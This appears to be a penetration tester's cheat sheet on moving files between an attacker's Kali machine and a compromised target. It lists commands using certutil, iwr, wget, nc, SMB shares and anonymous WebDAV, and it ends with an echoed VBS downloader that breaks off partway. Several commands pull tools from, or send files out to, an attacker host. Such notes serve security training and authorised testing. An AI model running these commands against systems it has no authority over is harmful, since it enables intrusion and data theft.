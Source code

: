 Notes:
- Run `ls`, `Get-ChildItem`, or `gci` with `-force` (like `ls -la` but for Windows)

## File Transfer

### Python server
- From kali: `python3 -m http.server $port`
- From target Windows: 
	- powershell: `iwr -uri http://$kaliIP:$port/$file -o $file`
	- cmd: `certutil.exe -urlcache -split -f http://$kaliIP/$file C:\Windows\temp\$file
- From target Linux:
	- `wget http://$kali IP:$port/$file`

### nc
1. on target - `nc -w 3 $kaliIP 4444 < file.txt`
2. on kali - `nc -lvnp 4444 > file.txt`

### SMB
- From kali: 
	- `sudo impacket-smbserver -smb2support $shareName $sharedDirectory -username "$kaliUser" -password "$kaliPass"`
- From target:  
	- `net use m: \\$kaliIP\$shareName /user:$kaliUser $kaliPass
	- `copy/get $file m:\
- Example:
1. on kali - `sudo impacket-smbserver -smb2support share . -username "pop" -password "party1"`
2. on target - `net use \\$kaliIP\share /user:pop party1`
3. on target - `copy $file \\$kaliIP\share`

### Over RDP
- `xfreerdp /u:admin /p:password /v:$target /drive:/$directoryToShare,$nameToShare

### SSH/SCP
`scp -P $sshPort $file $user@$targetIP:$destFolder`

### FTP
- From Kali: `python -m pyftpdlib -p 21 --write` (to provide write access)
- From windows: `ftp $kaliPass` (anonymous:anonymous)

### wsgidav
`wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $directoryToShare
- host specifies the host to listen to, "0.0.0.0" means all interaces, "--auth=anonymous" disables authentication (fine for sharing specific files during this context), and the "--root" flag specifies the directory to share. 

### .vbs file
Downloads a file from a self hosted web server:

	echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
	echo  Err.Clear >> wget.vbs 
	echo  Set http = Nothing >> wget.vbs 
	echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
	echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 